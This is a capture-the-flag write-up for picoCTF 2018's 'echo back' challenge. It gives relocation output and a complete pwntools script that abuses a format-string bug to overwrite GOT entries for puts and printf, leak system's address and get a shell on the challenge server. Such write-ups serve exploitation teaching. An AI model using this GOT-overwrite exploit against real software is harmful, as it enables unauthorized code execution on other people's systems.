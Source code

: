 echo back - Points: 500
===========

## Description

>This program we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with nc 2018shell1.picoctf.com 26532

## Hint:

> * hmm, printf seems to be dangerous...
> * You may need to modify more than one address at once.
> * Ever heard of the Global Offset Table?

## Useful Information

$readelf -r echo_back|grep "puts\|printf\|system" && nm echo_back|grep vuln
0804a010  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a01c  00000507 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a020  00000607 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
080485ab T vuln

Format String Bug detected :exclamation:

## Exploit

# **REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

> 1.Loop in the vuln() for reuse FS Bug (Overwrite GOT puts with vuln address) 
> 2.Leak address of system (Read Got address of System with "%s")
> 3.Write in a function the leaked address of system in a GOT Entry of printf(read will not work)


```python
#!/usr/bin/python2.7
from pwn import *
import time,sys

puts=0x804a01c
printf=0x804a010
sys=0x804a020
vuln_l=(0x80485ab&0x0000ffff)
vuln_h=(0x80485ab>>16)
rem = remote("2018shell3.picoctf.com",26532)

rem.recv()
payload=p32(puts+2)+p32(puts)+p32(sys)+"%"+"%dx" % (vuln_h-12)+"%7$hn"+"%"+"%dx" % (vuln_l-vuln_h)+"%8$hn#%9$sX"
rem.sendline(payload)
sys=int(rem.recvuntil("X").split("#")[1][:4][::-1].encode("hex"),16)
sys_l=sys&0x0000ffff
sys_h=sys>>16
payload=p32(printf)+p32(printf+2)+"%"+"%dx" % (sys_l-8)+"%7$hn"+"%"+"%dx" % (sys_h-sys_l)+"%8$hn"
rem.sendline(payload)
rem.interactive()
rem.close()

```


